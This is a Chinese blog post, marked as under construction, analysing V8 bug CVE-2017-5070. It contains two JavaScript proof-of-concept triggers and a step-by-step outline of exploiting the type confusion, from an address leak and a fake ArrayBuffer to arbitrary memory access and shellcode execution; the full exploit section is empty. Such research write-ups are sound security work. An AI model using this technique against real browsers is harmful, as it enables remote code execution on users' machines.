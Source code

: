 ```yaml
---
layout:     post
title:      "V8引擎CVE-2017-5070漏洞分析（工事中）"
subtitle:   ""
date:       2019-08-02 10:30:00
author:     "GToad"
header-img: "img/android-five.png"
catalog: true
tags:
    - chrome
    - v8
    - exploit
    - cve
    - browser
---
```


> 本文为本博客V8系列第三篇。

## 漏洞基本信息

[漏洞信息页面](https://bugs.chromium.org/p/chromium/issues/detail?id=722756)
[漏洞修复代码](https://chromium.googlesource.com/v8/v8.git/+/e33fd30777f99a0d6e16b16d096a2663b1031457)

根据漏洞基本信息可准备分析环境，先切换至漏洞修复前版本。
```
git checkout 9a493631005539cdabb7366352e8dd8188141a80
gclient sync
```

对源码进行编译。
```
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## PoC

参考了如下两个POC：

```javascript
var array = [[{}], [1.1]];
var double_arr2 = [1.1,2.2];
function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }

}

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}
var expected = 6.176516726456e-312;
function f(){
  Math.sin(1);
  swap();  
  double_arr2[0] = 1;
  transition(); 
  double_arr2[1] = expected; 
  
}
%DebugPrint(double_arr2);
f();
%OptimizeFunctionOnNextCall(f);
flag = 1;
f();

print ("111");
print (expected === double_arr2[1]);
print ("222")
```

第二个是大佬大宝的：

```javascript
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
assertEquals(expected, double_arr2[1]);
```

分别使用这两个POC对漏洞版本v8进行测试，可能第一个POC更加容易理解，该POC代码执行后会在倒数第二行的代码处报错，最后一行的输出并不会执行，原因是对double_arr2的解析会报错。

## 漏洞成因

#### 调试分析

本漏洞在gdb调试时可能出现数据无法正常读出的情况，因此，需要使用gdb的attach功能，大致方法如下：

1. 在一个terminal中运行测试脚本：`gdb d8 --allow-natives-syntax ./test.js`，脚本中的`%SystemBreak();`全都换成`readline();`这样脚本会停在readline这里等用户输入并回车。
2. 在另一个terminal里用`ps -uf`命令查看步骤1中的进程号，然后用sudo gdb d8（一定要sudo！），进入后用attach 进程号来调试这个进程，attach上以后记得先用stop命令让进程暂停下来。

#### 结论

那么仔细看一下本漏洞的大致原理是什么呢？关键在于transition和swap这两个函数。

swap函数不仅仅是需要JIT优化，还要防止自己因为过短而被inline进f()。

transition这个函数看似没有对我们的array和double_arr2进行任何改变，仅仅只修改了局部变量arr。但是，这只是代码表面现象，实际上v8会对array中的两个元素进行优化调整。并且这个优化调整还会在flag=1时在swap中涉及到double_arr。

最后由于执行次数太多，swap和transition会进行JIT优化并去除一些类型检查。最终的效果就是double_arr2在访问时会直接把自己的元素上保存的数据当作double值给直接返回出来，而不是正常情况下把它们作为double对象的指针去寻找目标内存中下一个的数据作为double来返回。

根据上面的分析，这个漏洞最后的表现为：由于double_arr2开始直接把自己元素的指针当作double来返回了，所以在f()里直接对double_arr2进行object赋值，这样访问double_arr后就能直接得到object的地址了。于是这就是个任意地址读的原语addrOf（object），这里并没有暴露出很明显的fakeObject原语。

## 漏洞利用

#### 步骤一

第一步，我们先创建了一个`var ab = new ArrayBuffer(0x20);`。

然后用addrOf原语泄露出ab.__proto__的地址，这个地址就是%DebugPrint（ab）中包含的prototype的地址。并且通过-0x70就可以得到ab_constructor_addr的地址。

#### 步骤二

第二步，新建ab_map_obj变量，是个uint32，总共12个int32或6个int64的数组：
```javascript
var ab_map_obj = [
    nop,nop,
    0x1f000008,0x000900c0,0x082003ff,0x0,
    nop,nop,   // use ut32.prototype replace it
    nop,nop,0x0,0x0
];
```

然后对其中的`[6,7,8,9]`进行赋值，把第一步得到的ab_proto_addr和ab_constructor_addr两个64位数据给了这4个32位。

接下来新建`var ab_map_obj_float = [1.1,1.1,1.1,1.1,1.1,1.1];`长度为6的double64数组。使用工具函数change_to_float把ab_map_obj里的12个int32都赋值给 ab_map_obj_float。通过addrOf原语得到 ab_map_obj_float的地址，然后+0x40就是这6个float64数据的存储位置，这6个数据现在伪装成了一个arraybuffer的map。

#### 步骤三

第三步，新建两个变量：（和第二步差不多）
var fake_ab = [
    ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
    ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
    ab_map_obj_addr & 0xffffffff, ab_map_obj_addr / 0x100000000,
    0x0,0x4000, // buffer length 
    0x12345678,0x123,// buffer address
    0x4,0x0
]
var fake_ab_float = [1.1,1.1,1.1,1.1,1.1,1.1];
把fake_ab的数据也保存进fake_ab_float，然后用原语泄露地址。最后通过+0x40来获得6个float64数据的位置。这6个数据现在已经伪装成一个arraybuffer了。

#### 步骤四

第四步，本步骤在double_arr42[1]上保存上步得到的fake_ab_float_addr的数据。于是再次从double_arr42[1]上取出来时，已经是一个假的arraybuffer了，赋值给fake_arraybuffer。
此时，我们既可以用fake_ab_float来任意修改这6个float64数据，同时这6个float64数据也被认为是个arraybuffer，其中因此通过修改backing store属性就可以进行任意读写。

#### 步骤五-七

第五步，本步骤用原语得到了function_to_shellcode函数对象的地址，并通过+0x38得到code对象的位置。

第六步，用任意读能力从code属性得到函数的汇编地址。

第七步，把汇编地址存入backing store，接下来就可以改写函数汇编代码了，之后执行这个函数就行。

## 最终效果

执行该exploit后可以成功执行shellcode并弹出计算器：

![](/img/in-post/post-cve20165198/calc.png)

## 完整EXP

```javascript

```
